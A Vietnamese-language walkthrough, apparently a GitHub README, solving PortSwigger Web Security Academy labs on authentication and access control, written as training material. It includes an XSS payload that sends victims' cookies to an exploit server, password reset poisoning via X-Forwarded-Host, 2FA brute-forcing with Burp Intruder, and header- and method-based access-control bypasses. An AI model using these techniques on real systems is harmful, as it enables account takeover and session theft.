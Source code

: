 # WriteUp_PortSwigger

# Authentication

<h2>Lab: Offline password cracking</h2>
Đăng nhập vào lab bằng tài khoản cho trước: wiener:peter. Sau đó vào một post bất kì, comment vào bằng payload XSS <code><script>document.location='//exploit-ac071f2a1ef03225c0a90ac401b80031.web-security-academy.web-security-academy.net/'+document.cookie</script></code>
Sau đó truy cập vào server exploit do lab cung cấp sẵn, rồi vào accesslog, ta sẽ thấy:

![image](https://user-images.githubusercontent.com/44827139/158007468-4ff7a879-994f-44ce-beaf-6eeec9791335.png)

Focus vào request có chứa cookie <code>stay-loged-in</code>, ta lấy giá trị rồi decode base 64 thu được: <code>carlos:26323c16d5f4dabff3bb136f2460a943</code>
Sau đó tìm đoạn mã md5 (26323c16d5f4dabff3bb136f2460a943) trên google sẽ ra giá trị trc khi encode của nó là <code>onceuponatime</code>, đây chính là mật khẩu.

![image](https://user-images.githubusercontent.com/44827139/158007617-37e34eee-21b6-4f01-ba31-5ba930de4390.png)

Đăng nhập dùng username và password đã tìm được rồi xóa user là giải được lab.

<h2>Lab: Password reset poisoning via middleware</h2>

Thực hiện việc reset password của user lab đã cho trong khi bật proxy burp suite, sau đó gửi request POST /forgot-password vào Repeater, thêm header <code>X-Forwarded-Host:exploit-acf01f131e7674fdc0621ab501c300af.web-security-academy.net</code> và sửa giá trị của username thành carlos.
![image](https://user-images.githubusercontent.com/44827139/158009440-62bd4000-c6ef-41d1-bb40-4251dd8c1dda.png)
Sau đó truy cập server exploit cho sẵn của lab -> access log -> tìm đến request có chứa token <code>temp-forgot-password-token</code>.
Vào email client dc cho sẵn ->cop đường dẫn reset password, sau đó thay giá trị của token vừa copy được vào -> đổi mật khẩu taaif khoản của username carlos -> done.

<h2>Lab: 2FA bypass using a brute-force attack</h2>
Đăng nhập bằng tài khoản carlos, đến phần xác thực lớp thứ 2 thì nếu nhập sai code, ta sẽ bị log out, vậy nên cần phải tạo một macro trong burp suite

![image](https://user-images.githubusercontent.com/44827139/158010542-eac469a9-c268-458e-afee-e6eab261f26b.png)

Trong burp suite, chọn Project options > Sessions.Trong Session Handling Rules panel, bấm Add, hộp thoại Session handling rule editor hiện ra.  

![image](https://user-images.githubusercontent.com/44827139/158010624-d50d158f-d79c-4602-842f-cca260be867e.png)

Vào tab Scope, trong URL Scope, chọn option Include all URLs.
![image](https://user-images.githubusercontent.com/44827139/158010652-06f95af7-bb07-4e8d-9b68-23a007051746.png)

Quay lại tab Details, trong Rule Actions, chọn Add > Run a macro.
![image](https://user-images.githubusercontent.com/44827139/158010685-b3d8d071-a481-47dd-ab12-3d3d177eba04.png)

Dưới Select macro nhấn Add để mở Macro Recorder
![image](https://user-images.githubusercontent.com/44827139/158010712-2dfa67bf-f318-49c0-9034-e91630bc7132.png)

Sau đó chọn 3 requets 
<code>
GET /login <br>
POST /login <br>
GET /login2 <br>
</code>

Quay lại màn hình chính burp suite, gửi request <code>POST /login2</code> đến Intruder -> đặt một biến vào <code>mfa-code:</code>
![image](https://user-images.githubusercontent.com/44827139/158010833-dea3b258-9093-48b1-ab24-597f22c8f3bf.png)

Setup payload như hình
![image](https://user-images.githubusercontent.com/44827139/158010878-c5c38048-51f6-49a8-a4d9-3a48b781aa32.png)

Trong Resource pools: 
![image](https://user-images.githubusercontent.com/44827139/158010900-bd9028f1-c0ae-4a1e-9cdb-8d859a7f5f6f.png)

Bắt đầu attacks, khi thấy 1 request nào đó trả về 302 code thì request đó thành công. Chọn request đó -> chuột phải -> show requets in browser-> copy link lên browser -> done

# Access Control

<h2>Lab: URL-based access control can be circumvented</h2>
Truy cập vào Admin Panel, ta sẽ thấy kết quả trả về là "Access Denied". Gửi request tới Burp Suite Repeater. Thêm URL trong phần request thành <code>/?username=carlos</code> và thêm header <code>X-Original-URL: /admin/delete</code> -> send requets -> xóa được user Carlos

![image](https://user-images.githubusercontent.com/44827139/158012393-7201ce3e-7fb8-4391-ae2a-8b173e37b233.png)

<h2>Lab: Method-based access control can be circumvented</h2>

Đăng nhập vào web bằng tài khoản admin cho sẵn -> admin panel -> nâng role của carlos thành admin -> gửi requets này đến Burp Repeater. Mở browser của burp suite lên sau đó đăng nhập bằng tài khoản người dùng thông thường (wiener) sau đó copy session cookie của tài khoản này, dán vào cookie của request trong repeater, đổi method thành get, sửa tham số thành wiener sau đó send -> done.
![image](https://user-images.githubusercontent.com/44827139/158012700-572d6c8b-ef18-4e6c-bf32-504e6eca37aa.png)

